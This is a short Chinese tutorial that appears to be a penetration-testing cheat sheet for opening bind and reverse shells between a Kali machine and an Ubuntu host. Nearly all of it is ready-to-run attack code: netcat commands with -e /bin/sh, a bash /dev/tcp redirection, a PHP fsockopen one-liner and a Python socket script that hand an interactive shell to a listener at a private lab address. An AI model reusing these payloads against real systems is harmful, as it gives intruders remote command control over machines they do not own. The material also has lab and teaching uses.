 ### nc反弹shell

- 正向shell(服务端送shell)

  kali(服务端)，监听23333端口，并且反弹shell
  nc -lvp 23333 -e /bin/sh
  ubuntu(客户端)，连接kali，拿到shell控制权
  nc 192.168.1.229 23333

- 反向shell(客户端送shell)

  切换Ubuntu的nc版本，默认设置free-bsd的阉割版
  update-alternatives --config nc
  sudo apt-get -y install netcat-traditional(执行上面一条没有结果，表示你没有安装增强版的nc)
   kali监听23333端口(等待客户端吃钩子)
  nc -lvp 23333
   启动ubuntu吃钩子
  nc 192.168.1.229 23333 -e /bin/sh

### bash反弹shell

服务端kali监听23333，钩子准备好
nc -lvp 23333
客户端ubuntu(bash反弹shell)
bash -i >& /dev/tcp/192.168.1.229/23333 0>&1
bash -i
产生一个bash交互环境
这个>&的意思是:
将联合符号前面的内容与后面相结合然后一起重定向给后者
/dev/tcp/192.168.1.229/23333 
linux环境中所有的内容都是以文件的形式存在，就是 让主机与目标主机192.168.1.229:23333的端口建立一个TCP连接
0>&1
将标准的输入与标准的输出内容相结合，然后重定向给前面标准的输出内容

### php反弹shell 

在kali上监听23333
nc -lvp 23333
客户端吃钩子，服务端成功控制客户端

客户端ubuntu
php -r '$f=fsockopen("192.168.1.229",23333);exec("/bin/sh -i <&3 >&3 2>&3");'

### python反弹shell

服务端kali监听23333，等待客户端吃钩子
客户端ubuntu使用python2.7
代码如下
import socket,subprocess,os; 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.160.140",23333));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
